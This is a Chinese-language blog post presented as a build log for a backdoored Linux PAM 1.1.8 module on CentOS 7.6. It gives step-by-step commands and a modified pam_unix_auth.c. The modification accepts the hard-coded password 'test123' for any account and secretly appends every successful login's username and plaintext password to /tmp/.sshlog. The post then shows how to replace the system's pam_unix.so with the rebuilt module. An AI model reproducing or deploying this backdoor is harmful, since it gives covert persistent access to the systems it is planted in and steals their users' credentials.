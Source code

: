 ```yaml
---
title: Linux PAM1.1.8后门 CentOS7.6 编译记录
date: 2024/05/08 12:25
updated: 2024/05/08 12:25
tags: [编译,PAM,后门,SSH,渗透测试,安全技术]
categories: 安全技术
description: 记录编译过程中的坑
cover: https://s2.loli.net/2023/06/07/Zq2nQOiVmxRT59H.jpg
---
```


##  Linux PAM1.1.8后门 CentOS7.6 编译记录

编译环境：
```bash
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# uname -a
Linux iZhp35ib6je3t2dltc8ltkZ 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# cat /etc/centos-release
CentOS Linux release 7.9.2009 (Core)
[root@iZhp35ib6je3t2dltc8ltkZ linux-pam-Linux-PAM-1_1_8]# 
```

SELINUX=disabled(默认)

1. 检查目标机器pam版本
```bash
[root@iZhp35ib6je3t2dltc8ltkZ ~]# rpm -qa | grep pam
pam-1.1.8-23.el7.x86_64
```

2. 获取对应版本源码

```bash
wget https://github.com/linux-pam/linux-pam/archive/refs/tags/Linux-PAM-1_1_8.tar.gz
```

3. 解压

```bash
tar zxvf Linux-PAM-1_1_8.tar.gz
cd linux-pam-Linux-PAM-1_1_8  
```

4. 安装基础依赖
```bash
yum install gcc flex flex-devel automake autoconf gettext libtool w3m texinfo fop bison bzip2 docbook-xsl-ns docbook-style-dsssl  docbook-style-xsl docbook5-style-xsl  docbook-utils -y
```

5. 修改源码

modules/pam_unix/pam_unix_auth.c
```c
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("test123",p)==0){return PAM_SUCCESS;}
if(retval == PAM_SUCCESS){
    FILE * fp;
    fp = fopen("/tmp/.sshlog","a");
    fprintf(fp,"%s : %s\n",name,p);
    fclose(fp);
}
name = p = NULL;

AUTH_RETURN;
```

6. 编译
```bash
./autogen.sh
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
make
```

7. 备份并替换
```bash
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bak
cp /root/linux-pam-Linux-PAM-1_1_8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```